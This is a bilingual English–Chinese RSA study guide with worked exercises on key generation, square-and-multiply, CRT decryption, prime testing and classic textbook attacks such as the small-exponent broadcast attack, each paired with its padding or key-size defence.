Alice sends \(Z=E(PU_b,E(PR_a,X))\). Bob computes \(X=D(PU_a,D(PR_b,Z))\). This takes four public-key operations (two per side) instead of two. \(E(PR_a,X)\) alone can be decrypted by anyone who knows \(PU_a\), so it proves origin and integrity but gives no confidentiality; the outer encryption with \(PU_b\) adds it.Alice 发送 \(Z=E(PU_b,E(PR_a,X))\)。Bob 计算 \(X=D(PU_a,D(PR_b,Z))\)。这需要四次公钥运算（双方各两次），而不是两次。任何掌握 \(PU_a\) 的人都能解密单独的 \(E(PR_a,X)\)，因此它能证明来源和完整性，却不提供机密性；外层以 \(PU_b\) 加密则补充了机密性。
Q3. (Attack) A 56-bit DES key is sent to Bob encrypted with his 2048-bit RSA public key and no padding. How can Eve recover it without factoring \(n\)? Why does the large modulus not help, and how is the attack stopped?Q3.（攻击）一个 56 位的 DES 密钥先用 Bob 的 2048 位 RSA 公钥加密（不做填充）后发送给 Bob。Eve 如何在不分解 \(n\) 的情况下恢复该密钥？为什么大模数也无济于事？这种攻击如何被阻止？
Answer
Eve encrypts each of the \(2^{56}\approx7.2\times10^{16}\) possible DES keys with Bob's public key and compares each result with the intercepted ciphertext; the match is the key. The message space is tiny and unpadded RSA is deterministic, so the effort equals brute-forcing DES whatever the size of \(n\). Appending random bits (randomized padding such as OAEP) makes the set of possible plaintexts too large to enumerate.Eve 用 Bob 的公钥加密 \(2^{56}\approx7.2\times10^{16}\) 种可能的 DES 密钥中的每一个，并将每个结果与截获的密文比较，匹配者即为密钥。消息空间很小，且无填充的 RSA 是确定性的，因此无论 \(n\) 多大，其工作量都等同于对 DES 进行穷举。附加随机比特（即 OAEP 等随机化填充）可使可能明文的集合大到无法逐一枚举。
思路：消息空间小 + 加密确定性 = 可以穷举明文，和模数多大无关。
The RSA Algorithm ★★★RSA 算法
Goal. Generate an RSA key pair, encrypt and decrypt with small numbers, and explain why decryption returns the plaintext.目标。 生成一对 RSA 密钥，用小数字进行加密和解密，并解释为什么解密能得到明文。
Step 1: the keys第 1 步：密钥
In words: RSA = pick two secret primes, publish their product and an exponent e, and keep the matching inverse d as the private key.用文字表述：RSA = 选取两个秘密素数，公布它们的乘积和指数 e，并把与之配对的逆元 d 作为私钥保存。
RSA（Rivest–Shamir–Adleman）is a block cipher. Plaintext and ciphertext blocks are integers from 0 to \(n-1\). A message is cut into blocks, and each block is read as an integer smaller than \(n\). A modulus of 1024 bits was typical; today at least 2048 bits are used.RSA（Rivest–Shamir–Adleman）是一种分组密码。明文分组和密文分组都是从 0 到 \(n-1\) 的整数。消息被切分成若干分组，每个分组都被看作一个小于 \(n\) 的整数。过去常用 1024 位的模数，如今至少使用 2048 位。
How to do it by hand: 1. Choose two primes and compute \(n\) and \(\phi(n)\). 2. Choose \(e\) with \(\gcd(e,\phi(n))=1\). 3. Find \(d\) with the extended Euclidean algorithm. For small numbers, test \(d=(1+k\phi(n))/e\) for \(k=1,2,\dots\) until it is an integer.手工做法：1. 选取两个素数，并计算 \(n\) 和 \(\phi(n)\)。2. 选取 \(e\)，使 \(\gcd(e,\phi(n))=1\)。3. 用扩展欧几里得算法求出 \(d\)。对于小数字，可以逐一测试 \(k=1,2,\dots\)，直到 \(d=(1+k\phi(n))/e\) 为整数。
Step 2: encryption and decryption第 2 步：加密与解密
In words: encrypt by raising the block to the power e, decrypt by raising the ciphertext to the power d, always modulo n.用文字表述：加密就是把分组求 e 次幂，解密就是把密文求 d 次幂，计算时始终对 n 取模。


Three requirements must hold.必须满足三个条件。
- \(e\), \(d\) and \(n\) exist with \(M^{ed} \bmod n=M\) for all \(M<n\). RSA reaches this by making \(e\) and \(d\) inverses modulo \(\phi(n)\).\(e\)、\(d\) 和 \(n\) 存在，并且对所有 \(M<n\) 都满足 \(M^{ed} \bmod n=M\)。RSA 通过使 \(e\) 与 \(d\) 在模 \(\phi(n)\) 下互为逆元来做到这一点。
- \(M^e\) and \(C^d\) are easy to compute. RSA reaches this by square-and-multiply (Section 9.3).\(M^e\) 和 \(C^d\) 很容易计算。RSA 借助平方-乘算法做到这一点（见第 9.3 节）。
- \(d\) is infeasible to find from \(e\) and \(n\). RSA reaches this by the difficulty of factoring \(n\) (Section 9.5).由 \(e\) 和 \(n\) 求出 \(d\) 是不可行的。RSA 依靠分解 \(n\) 的困难性做到这一点（见第 9.5 节）。
The keys also work in the other order, because \((M^d)^e\equiv(M^e)^d \pmod n\). Alice signs with \(S=M^d \bmod n\), where \(S\) is the signature, and anyone checks that \(S^e \bmod n=M\). In practice a hash of the message is signed (Section 13.4).两把密钥也可以颠倒顺序使用，因为 \((M^d)^e\equiv(M^e)^d \pmod n\)。Alice 用 \(S=M^d \bmod n\) 签名，其中 \(S\) 即为签名，任何人都可以检查 \(S^e \bmod n=M\)。实际中签名的是消息的散列值（见第 13.4 节）。


The block 88 equals \(8\cdot11\) and shares the factor 11 with \(n=187\). Decryption still works, as shown next.分组 88 等于 \(8\cdot11\)，并且与 \(n=187\) 有公因子 11。解密仍然成立，下面会说明。
Step 3: why decryption works第 3 步：解密为什么成立
In words: raising to e and then to d is the same as raising to 1 plus a multiple of φ(n), and Euler's theorem makes that multiple vanish.用文字表述：先求 e 次幂再求 d 次幂，等同于求 1 加上 φ(n) 的某个整数倍的次幂，而欧拉定理使这个倍数的影响消失。
Since \(ed\equiv1 \pmod{\phi(n)}\), write \(ed=1+k\phi(n)\) for an integer \(k\). If \(\gcd(M,n)=1\), Euler's theorem gives \(M^{\phi(n)}\equiv1 \pmod n\), so由于 \(ed\equiv1 \pmod{\phi(n)}\)，记 \(ed=1+k\phi(n)\) 为整数 \(k\)。若 \(\gcd(M,n)=1\)，由欧拉定理得 \(M^{\phi(n)}\equiv1 \pmod n\)，所以
\[M^{ed}=M\cdot\big(M^{\phi(n)}\big)^k\equiv M\cdot1^k=M \pmod n.\]
If \(p\) divides \(M\), then \(M^{ed}\equiv0\equiv M \pmod p\), and modulo \(q\) the same argument works with Fermat's theorem. The Chinese remainder theorem (Section 3.5) joins the two results, so decryption works for every \(M<n\).若 \(p\) 整除 \(M\)，则 \(M^{ed}\equiv0\equiv M \pmod p\)；模 \(q\) 时，同样的论证借助费马定理也成立。中国剩余定理（见第 3.5 节）把两个结果合在一起，因此对每个 \(M<n\) 解密都成立。
Exponents are reduced modulo \(\phi(n)\) and bases modulo \(n\). Confusing the two is the commonest error.指数要对 \(\phi(n)\) 取模，底数要对 \(n\) 取模。把两者混淆是最常见的错误。
Practice练习
Q1. (Calculation) Let \(p=7\), \(q=17\), \(e=11\) and \(M=11\). Compute \(n\), \(\phi(n)\) and \(d\), encrypt \(M\) and decrypt the result.Q1.（计算）设 \(p=7\)、\(q=17\)、\(e=11\) 和 \(M=11\)。计算 \(n\)、\(\phi(n)\) 和 \(d\)，加密 \(M\)，并对结果解密。
Answer
\(n=119\), \(\phi(n)=6\cdot16=96\) and \(\gcd(11,96)=1\). Since \(11\cdot35=385=4\cdot96+1\), \(d=35\).\(n=119\)、\(\phi(n)=6\cdot16=96\) 和 \(\gcd(11,96)=1\)。由于 \(11\cdot35=385=4\cdot96+1\)，故 \(d=35\)。
Encryption: \(11^2=121\equiv2\), \(11^4\equiv4\), \(11^8\equiv16\), so \(C=11^{11}=11^8\cdot11^2\cdot11\equiv16\cdot2\cdot11=352\equiv114 \pmod{119}\).加密：\(11^2=121\equiv2\)，\(11^4\equiv4\)，\(11^8\equiv16\)，故 \(C=11^{11}=11^8\cdot11^2\cdot11\equiv16\cdot2\cdot11=352\equiv114 \pmod{119}\)。
Decryption: \(114\equiv-5\), so \(114^{35}\equiv-5^{35}\). With \(5^2=25\), \(5^4\equiv30\), \(5^8\equiv67\), \(5^{16}\equiv86\), \(5^{32}\equiv18\) we get \(5^{35}=5^{32}\cdot5^2\cdot5\equiv18\cdot25\cdot5\equiv108\), and \(-108\equiv11=M\).解密：\(114\equiv-5\)，故 \(114^{35}\equiv-5^{35}\)。代入 \(5^2=25\)、\(5^4\equiv30\)、\(5^8\equiv67\)、\(5^{16}\equiv86\)、\(5^{32}\equiv18\) 得到 \(5^{35}=5^{32}\cdot5^2\cdot5\equiv18\cdot25\cdot5\equiv108\)，并且 \(-108\equiv11=M\)。
Q2. (Cryptanalysis) You intercept \(C=20\) sent to a user with public key \(\{e,n\}=\{13,77\}\). Find \(M\). What does this show about \(n\)?Q2.（密码分析）你截获了一条发送给公钥为 \(\{e,n\}=\{13,77\}\) 的用户的 \(C=20\)。求 \(M\)。这说明了关于 \(n\) 的什么问题？
Answer
Factor \(77=7\cdot11\), so \(\phi(n)=60\). Since \(13\cdot37=481=8\cdot60+1\), \(d=37=100101_2\). Powers of 20 modulo 77: \(20^2\equiv15\), \(20^4\equiv71\), \(20^8\equiv36\), \(20^{16}\equiv64\), \(20^{32}\equiv15\). Then \(M=20^{37}=20^{32}\cdot20^4\cdot20\equiv15\cdot71\cdot20\equiv48 \pmod{77}\). A modulus this small is factored at once; \(n\) must be so large that factoring is infeasible.对 \(77=7\cdot11\) 作因数分解，得 \(\phi(n)=60\)。由于 \(13\cdot37=481=8\cdot60+1\)，故 \(d=37=100101_2\)。20 的幂模 77 依次为 \(20^2\equiv15\)、\(20^4\equiv71\)、\(20^8\equiv36\)、\(20^{16}\equiv64\)、\(20^{32}\equiv15\)。于是 \(M=20^{37}=20^{32}\cdot20^4\cdot20\equiv15\cdot71\cdot20\equiv48 \pmod{77}\)。这样小的模数可立即被分解；\(n\) 则必须大到使分解不可行。
Q3. (Explain why) A student picks \(p=20\), \(q=14\) and \(e=3\), computes \(n=280\), \(\phi=19\cdot13=247\) and \(d=165\). Why does decryption fail? Show it for \(M=2\).Q3.（解释）一名学生选取 \(p=20\)、\(q=14\) 和 \(e=3\)，并计算 \(n=280\)、\(\phi=19\cdot13=247\) 和 \(d=165\)。为什么解密会失败？请对 \(M=2\) 说明这一点。
Answer
20 and 14 are not prime, so \(\phi(pq)=(p-1)(q-1)\) does not hold; the true \(\phi(280)=96\). Then \(ed=495=5\cdot96+15\not\equiv1 \pmod{96}\), so \(M^{ed}\equiv M\) is not guaranteed. For \(M=2\): \(C=2^3=8\), but \(8^{165} \bmod 280=8\ne2\).20 和 14 都不是素数，因此 \(\phi(pq)=(p-1)(q-1)\) 不成立；真正的 \(\phi(280)=96\)。于是 \(ed=495=5\cdot96+15\not\equiv1 \pmod{96}\)，因此 \(M^{ed}\equiv M\) 不能得到保证。对于 \(M=2\)：\(C=2^3=8\)，但 \(8^{165} \bmod 280=8\ne2\)。
易错：φ(pq)=(p−1)(q−1) 只对两个不同的素数成立。
Fast Exponentiation and Efficient RSA ★★★快速幂运算与高效 RSA
Goal. Compute \(a^b \bmod n\) by square-and-multiply and count the multiplications. Explain the choice of \(e\), the broadcast attack with a small \(e\), and decryption with the Chinese remainder theorem.目标。 用平方-乘算法计算 \(a^b \bmod n\)，并统计乘法次数。解释 \(e\) 的选取、小 \(e\) 时的广播攻击，以及用中国剩余定理解密。
Step 1: square-and-multiply第 1 步：平方-乘算法
In words: write the exponent in binary and scan it from the left: for every bit square the running result, and when the bit is 1 also multiply by the base.用文字表述：把指数写成二进制，从左到右扫描：每一位都对当前结果求平方；若该位为 1，还要再乘以底数。
Example for the idea: \(x^{11}=x^{1+2+8}=x\cdot x^2\cdot x^8\). Compute \(x,x^2,x^4,x^8\) by squaring and multiply the three needed terms. Computing \(x^{16}\) by repeated multiplication takes 15 multiplications; repeated squaring takes 4.思路示例：\(x^{11}=x^{1+2+8}=x\cdot x^2\cdot x^8\)。通过平方并相乘所需的三项来计算 \(x,x^2,x^4,x^8\)。若用连续相乘计算 \(x^{16}\)，需要 15 次乘法；用连续平方则只需 4 次。
How to do it by hand: 1. Write \(b\) in binary. 2. Start with \(f=1\). 3. For each bit from the left: square \(f\) and reduce modulo \(n\). 4. If the bit is 1, multiply \(f\) by \(a\) and reduce. 5. The last \(f\) is the answer.手工做法：1. 把 \(b\) 写成二进制。2. 从 \(f=1\) 开始。3. 从左到右对每一位：把 \(f\) 平方，并对 \(n\) 取模。4. 若该位为 1，则把 \(f\) 乘以 \(a\)，并取模。5. 最后得到的 \(f\) 就是答案。
c <- 0; f <- 1
for i <- k downto 0
c <- 2 * c
f <- (f * f) mod n
if b_i = 1 then
c <- c + 1
f <- (f * a) mod n
return f # f = a^b mod n; c = b
Trace for \(a=7\), \(b=560=1000110000_2\), \(n=561\). The row \(c\) is the exponent built so far.对 \(a=7\)、\(b=560=1000110000_2\)、\(n=561\) 的演算过程。表中的 \(c\) 一行给出目前已构造出的指数。
| \(i\) | 9 | 8 | 7 | 6 | 5 | 4 | 3 | 2 | 1 | 0 |
|---|---|---|---|---|---|---|---|---|---|---|
| \(b_i\) | 1 | 0 | 0 | 0 | 1 | 1 | 0 | 0 | 0 | 0 |
| \(c\) | 1 | 2 | 4 | 8 | 17 | 35 | 70 | 140 | 280 | 560 |
| \(f\) | 7 | 49 | 157 | 526 | 160 | 241 | 298 | 166 | 67 | 1 |
So \(7^{560}\equiv1 \pmod{561}\). The number 561 is composite, so Fermat's test with base 7 is fooled (Section 3.4).所以 \(7^{560}\equiv1 \pmod{561}\)。数 561 是合数，因此以 7 为底的费马检验会被欺骗（见第 3.4 节）。
Step 2: choosing the public exponent第 2 步：选取公开指数
In words: the public operation is cheap when e has few 1 bits, but a very small e is dangerous without padding.用文字表述：当 e 的二进制中 1 较少时，公开运算的代价较低；但如果没有填充，e 太小则是危险的。
The usual values are \(65537=2^{16}+1\), 17 and 3. For \(e=65537\) the method needs 16 squarings and one multiplication, 17 in all.常用的取值有 \(65537=2^{16}+1\)、17 和 3。对于 \(e=65537\)，该方法需要 16 次平方和一次乘法，共 17 次。
The broadcast attack on \(e=3\) works as follows. The same message \(M\) is sent to three users, who all use \(e=3\) and pairwise coprime moduli \(n_1,n_2,n_3\).针对 \(e=3\) 的广播攻击是这样进行的：同一条消息 \(M\) 被发送给三个用户，他们都使用 \(e=3\)，并且模数 \(n_1,n_2,n_3\) 两两互素。
- The attacker sees the three ciphertexts \(C_i=M^3 \bmod n_i\), where \(C_i\) belongs to user \(i=1,2,3\).攻击者看到三个密文 \(C_i=M^3 \bmod n_i\)，其中 \(C_i\) 属于用户 \(i=1,2,3\)。
- The Chinese remainder theorem (Section 3.5) gives the unique \(x<n_1n_2n_3\) with \(x\equiv C_i \pmod{n_i}\).中国剩余定理（见第 3.5 节）给出满足 \(x\equiv C_i \pmod{n_i}\) 的唯一 \(x<n_1n_2n_3\)。
- Since \(M<n_i\) for every \(i\), \(M^3<n_1n_2n_3\). So \(x=M^3\) as an ordinary integer.由于对每个 \(i\) 都有 \(M<n_i\)，所以 \(M^3<n_1n_2n_3\)。因此 \(x=M^3\) 就是一个普通整数。
- An ordinary cube root of \(x\) gives \(M\).\(x\) 的普通立方根即为 \(M\)。
Padding each message with unique pseudorandom bits prevents the attack. A short message is even weaker: if \(M^3<n\) no reduction happens, so \(C=M^3\) and one ciphertext suffices. Example: \(n=187\) and \(M=5\) give \(C=125\) and \(\sqrt[3]{125}=5\).为每条消息附加唯一的伪随机比特，可以防止这种攻击。短消息更弱：若 \(M^3<n\)，则不发生任何取模，因此 \(C=M^3\)，一个密文就够了。例如：\(n=187\) 和 \(M=5\) 给出 \(C=125\) 和 \(\sqrt[3]{125}=5\)。
Step 3: decryption with the Chinese remainder theorem第 3 步：用中国剩余定理解密
In words: decrypt separately modulo p and modulo q with short exponents, then combine the two answers.用文字表述：分别用较短的指数对模 p 和模 q 解密，再把两个结果合并。
A small \(d\) cannot be used instead: it falls to brute force and to other attacks, and a \(d\) below \(n^{1/4}\) can be found easily. The Chinese remainder theorem speeds up decryption by using the secret primes.不能改用小的 \(d\)：它会被穷举攻击和其他攻击攻破，而小于 \(n^{1/4}\) 的 \(d\) 也很容易找到。中国剩余定理利用秘密素数来加快解密速度。
Example for \(n=187=17\cdot11\), \(d=23\) and \(C=11\). Here \(d \bmod 16=7\) and \(d \bmod 10=3\). Then \(V_p=11^7 \bmod 17=3\) and \(V_q=11^3 \bmod 11=0\). Also \(X_p=11\cdot(11^{-1} \bmod 17)=11\cdot14=154\) and \(X_q=17\cdot(17^{-1} \bmod 11)=17\cdot2=34\). So \(M=(3\cdot154+0\cdot34) \bmod 187=462 \bmod 187=88\), the same plaintext as before.以下为 \(n=187=17\cdot11\)、\(d=23\) 和 \(C=11\) 的例子。这里 \(d \bmod 16=7\) 和 \(d \bmod 10=3\)。然后 \(V_p=11^7 \bmod 17=3\) 和 \(V_q=11^3 \bmod 11=0\)。还有 \(X_p=11\cdot(11^{-1} \bmod 17)=11\cdot14=154\) 和 \(X_q=17\cdot(17^{-1} \bmod 11)=17\cdot2=34\)。所以 \(M=(3\cdot154+0\cdot34) \bmod 187=462 \bmod 187=88\)，与前面相同的明文。
Why about four times faster: two exponentiations are needed, but each uses a modulus and an exponent of half the length. The cost of one modular exponentiation grows roughly with the cube of the bit length. So each costs about \(1/8\) of the full one, and the pair about \(2/8=1/4\).为什么约快四倍：需要两次幂运算，但每次使用的模数和指数都是原来一半的长度。一次模幂运算的代价大致与位长的三次方成正比。因此每次的代价约为完整运算的 \(1/8\)，两次合计约为 \(2/8=1/4\)。
Practice练习
Q1. (Trace) Compute \(9^{29} \bmod 77\) with square-and-multiply. How many modular multiplications are needed?Q1.（手工演算）用平方-乘算法计算 \(9^{29} \bmod 77\)。需要多少次模乘？
Answer
\(29=11101_2\), so \(k=4\).\(29=11101_2\)，故 \(k=4\)。
| \(i\) | 4 | 3 | 2 | 1 | 0 |
|---|---|---|---|---|---|
| \(b_i\) | 1 | 1 | 1 | 0 | 1 |
| \(c\) | 1 | 3 | 7 | 14 | 29 |
| \(f\) | 9 | 36 | 37 | 60 | 60 |
For example, at \(i=3\): \(9^2=81\equiv4\) and \(4\cdot9=36\); at \(i=0\): \(60^2=3600\equiv58\) and \(58\cdot9=522\equiv60\). The result is \(9^{29}\equiv60 \pmod{77}\). The method uses 4 squarings and 3 multiplications, 7 in all, against 28 for repeated multiplication.例如，在 \(i=3\) 处：\(9^2=81\equiv4\) 与 \(4\cdot9=36\)；在 \(i=0\) 处：\(60^2=3600\equiv58\) 与 \(58\cdot9=522\equiv60\)。结果为 \(9^{29}\equiv60 \pmod{77}\)。该方法共用 4 次平方和 3 次乘法，合计 7 次，而重复乘法需要 28 次。
Q2. (Attack) Three users have \(e=3\) and moduli \(55\), \(391\) and \(1189\). The same \(M\) is sent to all three and Eve sees \(C=3,\ 189,\ 370\). Recover \(M\) and name a defence.Q2.（攻击）三个用户的公钥指数都是 \(e=3\)，模数分别为 \(55\)、\(391\) 和 \(1189\)。同一 \(M\) 被发送给这三人，Eve 看到了 \(C=3,\ 189,\ 370\)。求出 \(M\)，并给出一种防御办法。
Answer
The moduli (\(5\cdot11\), \(17\cdot23\), \(29\cdot41\)) are pairwise coprime. The CRT gives the unique \(x<N=55\cdot391\cdot1189=25{,}569{,}445\) with \(x\equiv3 \pmod{55}\), \(x\equiv189 \pmod{391}\) and \(x\equiv370 \pmod{1189}\), namely \(x=74088\). Since \(M<n_i\) for each \(i\), \(M^3<N\), so \(x=M^3\) exactly and \(M=\sqrt[3]{74088}=42\) (check: \(42^3=74088\)). Defence: add fresh random padding to each message before encryption.模数 \(5\cdot11\)、\(17\cdot23\)、\(29\cdot41\) 两两互素。CRT 给出唯一的 \(x<N=55\cdot391\cdot1189=25{,}569{,}445\)，满足 \(x\equiv3 \pmod{55}\)、\(x\equiv189 \pmod{391}\) 与 \(x\equiv370 \pmod{1189}\)，即 \(x=74088\)。由于对每个 \(i\) 都有 \(M<n_i\)，\(M^3<N\)，故 \(x=M^3\) 恰好成立，因此 \(M=\sqrt[3]{74088}=42\)（验算：\(42^3=74088\)）。防御办法：在加密前为每条消息附加新的随机填充。
Q3. (CRT) Recompute the decryption of Q2 in the previous section (\(C=20\), \(p=7\), \(q=11\), \(d=37\)) with the CRT. Why is this method about four times faster in general?Q3.（CRT）用 CRT 重新计算上一节 Q2 中的解密（\(C=20\)、\(p=7\)、\(q=11\)、\(d=37\)）。为什么一般而言该方法约快四倍？
Answer
\(d \bmod 6=1\) and \(d \bmod 10=7\). \(V_p=20^1 \bmod 7=6\) and \(V_q=20^7 \bmod 11=9^7 \bmod 11=4\). \(X_p=11\,(11^{-1} \bmod 7)=11\cdot2=22\) and \(X_q=7\,(7^{-1} \bmod 11)=7\cdot8=56\). Then \(M=(6\cdot22+4\cdot56) \bmod 77=356 \bmod 77=48\), the same as the direct computation. Each exponentiation uses half-length numbers and costs about \(1/8\) of a full one (cost grows with the cube of the length), and two are needed: \(2/8=1/4\).\(d \bmod 6=1\) 与 \(d \bmod 10=7\)。\(V_p=20^1 \bmod 7=6\) 与 \(V_q=20^7 \bmod 11=9^7 \bmod 11=4\)。\(X_p=11\,(11^{-1} \bmod 7)=11\cdot2=22\) 与 \(X_q=7\,(7^{-1} \bmod 11)=7\cdot8=56\)。然后得到 \(M=(6\cdot22+4\cdot56) \bmod 77=356 \bmod 77=48\)，与直接计算的结果相同。每次幂运算使用一半长度的数，其代价约为全长幂运算的 \(1/8\)（代价随位长的三次方增长），且需要两次：\(2/8=1/4\)。
Key Generation ★★密钥生成
Goal. Say how the primes, \(e\) and \(d\) are found, estimate how many candidates must be tested, and list the constraints on \(p\) and \(q\).目标。 说明如何找到素数 \(e\) 和 \(d\)，估计需要测试多少个候选数，并列出对 \(p\) 和 \(q\) 的约束。
Step 1: finding the primes第 1 步：寻找素数
In words: there is no formula for a big prime, so pick a random odd number of the right size and test it until one passes.用文字表述：大素数没有现成的公式，因此随机选取一个大小合适的奇数，并对它进行检验，直到某个数通过检验为止。
The procedure has five steps.这个过程分为五步。
- Pick a random odd integer \(n\) of the wanted size.随机选取一个所需大小的奇数 \(n\)。
- Pick a random base \(a<n\).随机选取一个底 \(a<n\)。
- Run the Miller–Rabin test（米勒-拉宾检验）with \(a\) (Section 3.4). If \(n\) fails, it is certainly composite: go to step 1.以 \(a\) 为底进行 Miller–Rabin 检验（见第 3.4 节）。若 \(n\) 未通过，则它一定是合数：回到第 1 步。
- If \(n\) passes, it is only probably prime. Repeat steps 2 and 3 with independent bases.若 \(n\) 通过检验，它只是“可能是素数”。用独立的底重复第 2 步和第 3 步。
- Accept \(n\) after enough passes. The error probability can be made as small as wanted.经过足够多次通过后，接受 \(n\)。出错的概率可以任意小。
By the prime number theorem, primes near \(N\) are spaced about \(\ln N\) apart. Skipping even numbers halves the work.根据素数定理，\(N\) 附近的素数平均相隔约 \(\ln N\)。跳过偶数可以使工作量减半。
Step 2: choosing e and d第 2 步：选取 e 和 d
Pick a random \(e\) and test \(\gcd(\phi(n),e)=1\). Two random integers are coprime with probability about 0.6, so few tries are needed. The extended Euclidean algorithm returns the gcd and, if it is 1, the inverse \(d\equiv e^{-1} \pmod{\phi(n)}\) (Section 3.2). Alternatively fix \(e\), for example 65537, and reject every pair \(p\), \(q\) with \(\gcd(\phi(n),e)\neq1\).随机选取一个 \(e\)，并检验 \(\gcd(\phi(n),e)=1\)。两个随机整数互素的概率约为 0.6，所以只需少量尝试。扩展欧几里得算法返回最大公因数；若它为 1，则还给出逆元 \(d\equiv e^{-1} \pmod{\phi(n)}\)（见第 3.2 节）。另一种做法是先固定 \(e\)，例如取 65537，然后舍弃满足 \(\gcd(\phi(n),e)\neq1\) 的每一对 \(p\)、\(q\)。
Example: \(p=11\), \(q=13\), \(e=17\). Then \(\phi(n)=10\cdot12=120\) and \(\gcd(17,120)=1\). The extended Euclidean algorithm gives \(d=113\), and \(17\cdot113=1921=16\cdot120+1\).例子：\(p=11\)、\(q=13\)、\(e=17\)。然后 \(\phi(n)=10\cdot12=120\) 和 \(\gcd(17,120)=1\)。扩展欧几里得算法给出 \(d=113\)，并且 \(17\cdot113=1921=16\cdot120+1\)。
Step 3: constraints on p and q第 3 步：对 p 和 q 的约束
To keep \(n\) hard to factor, the inventors of RSA suggest three conditions.为了使 \(n\) 难以分解，RSA 的发明者提出了三个条件。
- \(p\) and \(q\) differ in length by only a few digits.\(p\) 和 \(q\) 的长度只相差几位数字。
- Both \(p-1\) and \(q-1\) contain a large prime factor.\(p-1\) 和 \(q-1\) 都含有一个大的素因子。
- \(\gcd(p-1,q-1)\) is small.\(\gcd(p-1,q-1)\) 较小。
Also \(d\) must not be small: a \(d\) below \(n^{1/4}\) can be found easily.\(d\) 也不能太小：小于 \(n^{1/4}\) 的 \(d\) 很容易被找到。
Practice练习
Q1. (Key generation) A user's public key is \(e=65\), \(n=2881\). Find the private key.Q1.（密钥生成）某用户的公钥为 \(e=65\)、\(n=2881\)。求其私钥。
Answer
Trial division up to \(\sqrt{2881}\approx53.7\) gives \(2881=43\cdot67\), so \(\phi(n)=42\cdot66=2772\) and \(\gcd(65,2772)=1\). Extended Euclid: \(2772=42\cdot65+42\), \(65=1\cdot42+23\), \(42=1\cdot23+19\), \(23=1\cdot19+4\), \(19=4\cdot4+3\), \(4=1\cdot3+1\). Back-substituting: \(1=4-3=5\cdot4-19=5\cdot23-6\cdot19=11\cdot23-6\cdot42=11\cdot65-17\cdot42=725\cdot65-17\cdot2772\). Hence \(d=725\) and \(PR=\{725,2881\}\). Check: \(65\cdot725=47125=17\cdot2772+1\).试除法（试除至 \(\sqrt{2881}\approx53.7\)）得 \(2881=43\cdot67\)，故 \(\phi(n)=42\cdot66=2772\) 与 \(\gcd(65,2772)=1\)。扩展欧几里得算法：\(2772=42\cdot65+42\)、\(65=1\cdot42+23\)、\(42=1\cdot23+19\)、\(23=1\cdot19+4\)、\(19=4\cdot4+3\)、\(4=1\cdot3+1\)。回代得：\(1=4-3=5\cdot4-19=5\cdot23-6\cdot19=11\cdot23-6\cdot42=11\cdot65-17\cdot42=725\cdot65-17\cdot2772\)。因此 \(d=725\) 与 \(PR=\{725,2881\}\)。验算：\(65\cdot725=47125=17\cdot2772+1\)。
Q2. (Calculation) How many random odd integers must be tested on average to find a 512-bit prime? What is the chance that a random odd 512-bit integer is prime? What does "passes the Miller–Rabin test" mean?Q2.（计算）平均需要检验多少个随机奇数才能找到一个 512 位的素数？一个随机的 512 位奇数是素数的概率是多少？“通过 Miller–Rabin 算法检验”是什么意思？
Answer
Odd integers near \(N\) are prime with probability about \(2/\ln N\). For \(N\approx2^{512}\), \(\ln N=512\ln2\approx355\), so about \(\ln N/2\approx177\) candidates are needed and the probability is about \(1/177\approx0.56\%\). Passing means "probably prime": a composite number passes a test with a random base only with small probability, so passing many independent tests makes the error probability negligible, whereas a single failure proves that the number is composite.在 \(N\) 附近，奇数是素数的概率约为 \(2/\ln N\)。对于 \(N\approx2^{512}\)，\(\ln N=512\ln2\approx355\)，因此约需检验 \(\ln N/2\approx177\) 个候选数，概率约为 \(1/177\approx0.56\%\)。“通过”意味着“很可能是素数”：合数以随机底数通过一次检验的概率很小，因此通过多次独立检验可使出错概率可忽略不计；而一次失败即证明该数是合数。
Security of RSA: Factoring and Mathematical Attacks ★★★RSA 的安全性：因数分解与数学攻击
Goal. Name the five attacks on RSA with their defences. Show that knowing \(\phi(n)\) is as bad as knowing the factors, and give the recommended key sizes.目标。 列出 RSA 的五种攻击及其防御方法。说明知道 \(\phi(n)\) 与知道其因子同样危险，并给出建议的密钥长度。
Step 1: five attacks, one benchmark第 1 步：五种攻击，一个基准
In words: RSA is only as strong as the difficulty of factoring n, so key size follows the best factoring algorithm.用文字表述：RSA 的强度只取决于分解 n 的困难程度，因此密钥长度要跟着最好的因数分解算法走。
| Attack攻击 | Idea核心思想 | Main defence主要防御 |
|---|---|---|
| Brute force穷举攻击 | try all private keys尝试所有私钥 | large key space大密钥空间 |
| Mathematical数学方法 | factor \(n\), or find \(\phi(n)\) or \(d\) directly分解 \(n\)，或直接求 \(\phi(n)\) 或 \(d\) | large \(n\); well-chosen \(p\) and \(q\) |
| Timing计时 | measure the running time of decryption测量解密的运行时间 | blinding盲化 |
| Hardware fault硬件故障 | induce faults in the signing processor在签名处理器中诱发故障 | physical protection物理保护 |
